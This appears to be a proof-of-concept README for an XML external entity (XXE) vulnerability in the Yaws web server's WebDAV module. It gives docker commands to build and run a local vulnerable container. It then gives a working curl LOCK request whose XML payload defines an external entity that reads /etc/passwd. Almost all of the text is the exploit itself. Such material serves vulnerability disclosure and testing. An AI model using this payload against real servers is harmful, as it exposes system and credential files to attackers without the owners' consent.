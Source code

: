 Yaws XXE

`docker build -t vulnbe/yaws-pocs:xxe-dav-mod -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:xxe-dav-mod`

```bash
curl -i -s -k -X LOCK http://localhost:8000/ -H 'Timeout: Second-1' \
  --data-binary @- << EOF
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///etc/passwd">
]>
<d:lockinfo xmlns:d="DAV:">
  <d:lockscope><d:exclusive/></d:lockscope>
  <d:locktype><d:write/></d:locktype>
  <d:owner>
  <d:href><r>&sp;</r></d:href>
  </d:owner>
  </d:lockinfo>
EOF
```
